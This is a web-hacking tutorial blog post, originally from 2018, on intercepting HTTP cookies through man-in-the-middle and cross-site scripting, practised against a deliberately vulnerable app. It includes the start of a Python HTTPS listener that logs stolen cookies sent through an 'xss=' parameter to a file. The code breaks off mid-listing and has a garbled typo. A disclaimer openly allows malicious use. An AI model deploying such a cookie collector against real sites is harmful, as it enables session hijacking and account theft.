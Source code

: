 # [Web hacking #1 - Cookies interception 101](https://krystianbajno.github.io/2018/04/21/webh_1/)

- [Adam Doupe’s vulnerable app I used in this tutorial](https://github.com/adamdoupe/WackoPicko)

**_Disclaimer:_** _You are free to use presented knowledge for educational purposes, with good intentions (securing web applications, penetration testing, ctf’s etc.), or not._ **_I am not responsible for anything you do._**

---

This article was originally written in May 2018 and is presented here in its original format. While the content is old, it remains relevant, although there are areas where I would make updates, such as covering local/session storage, JWT-based authentication, DOM XSS, and Content Security Policy, along with general code refactoring.

Despite these potential improvements, I have chosen to preserve the article in its original form, as it represents my first-ever article writing endeavor during high school.

The topics covered here include basic Man-in-the-Middle attacks and Cross-Site Scripting (XSS).

If you're interested in further exploration and learning, I recommend visiting [PortSwigger Academy](https://portswigger.net/web-security), particularly their XSS section. It provides excellent, free training in web security. KUDOS for them.

_Enjoy your reading_.

K.

---

## This article will explain some of the common [HTTP state](https://tools.ietf.org/html/rfc6265)  interception methods for beginners.

### **At the base of our actions we need a listener.**

Due to [mixed content](https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content?utm_source=mozilla&utm_medium=firefox-console-errors&utm_campaign=default) restrictions in modern browsers you’ll often need to use HTTPS protocol capable web server.  

You can write your own or use httpd like [Apache](https://httpd.apache.org/).

If your target is outside the NAT then corresponding port forwarding will be needed too.  
You can also use a web service similar to ~~[Requestbin](https://github.com/Runscope/requestbin#readme)~~ _(public hosting discontinued unfortunately, although there are self-hosted options for webhooks and bins)_.

Here is a very simple solution written in Python 3.  

```python
import http.server  
import ssl  
import sys  
  
class S(http.server.BaseHTTPRequestHandler):  
  def _set_headers(self):  
    self.send_response(200)  
    self.send_header('Content-type', 'text/html')  
    self.end_headers()  
  
  def do_GET(self):  
    self._set_headers()  
    print(self.path)  
    cookie =s elf.path.split("xss=")[1]  
    print("Cookie: "+cookie+"\n")
    
    with open('cookies.txt', 'a') as xss:  
```
